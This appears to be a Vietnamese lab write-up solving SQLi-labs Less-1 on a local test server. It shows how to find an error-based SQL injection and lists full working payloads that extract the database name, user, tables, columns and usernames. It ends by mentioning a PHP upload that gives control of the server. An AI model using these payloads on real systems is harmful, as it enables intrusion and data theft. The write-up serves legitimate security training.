## Less-1

Ta thấy ở đây là error based



Yêu cầu truyền vào một ID



Đây là lỗi error based nên thử truyền vào các id khác nhau





Dự đoán câu query để hiển thị name và password là:

```
select name, password from table where id = $ID
```
Tiếp tục thử ta thấy đã xuất hiện lỗi


Dự đoán câu query lúc này sẽ là

```
select name, password from table where id = '$ID' limit 0,1
```

Tiếp tục thử tiếp



Ta thấy vẫn lỗi vì câu query lúc này nó đang thực thi là

```
select name, password from table where id = '1'' limit 0,1
```

Thử comment những gì phía sau `'1'` lại để câu truy vấn chỉ còn:

```
select name, password from table where id = '1'
```



Tận dụng đây ta có thể show ra một số thông tin

```
http://192.168.84.233/sqli-labs/Less-1/?id=1' and (SELECT 0 FROM (SELECT count(*), CONCAT((select database()), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```



```
http://192.168.84.233/sqli-labs/Less-1/?id=1' and (SELECT 0 FROM (SELECT count(*), CONCAT((select user()), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```



Show các bảng bên trong database

```
http://192.168.84.233/sqli-labs/Less-1/?id=1' and (SELECT 0 FROM (SELECT count(*), CONCAT((select table_name from information_schema.tables where table_schema='security' limit 0,1), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```



```
http://192.168.84.233/sqli-labs/Less-1/?id=1' and (SELECT 0 FROM (SELECT count(*), CONCAT((select table_name from information_schema.tables where table_schema='security' limit 1,1), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```



Có thể show được các cột bên trong một bảng

```
http://192.168.84.233/sqli-labs/Less-1/?id=1' and (SELECT 0 FROM (SELECT count(*), CONCAT((select column_name from information_schema.columns where table_name='users' limit 0,1), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```



```
http://192.168.84.233/sqli-labs/Less-1/?id=1' and (SELECT 0 FROM (SELECT count(*), CONCAT((select column_name from information_schema.columns where table_name='users' limit 1,1), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```



Ta có thể show dữ liệu bên trong một bảng

```
http://192.168.84.233/sqli-labs/Less-1/?id=1' and (SELECT 0 FROM (SELECT count(*), CONCAT((select username from users limit 0,1), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```



Ta có thể up một đoạn code PHP lên server


Bây giờ ta có thể thao tác trên chính server đó



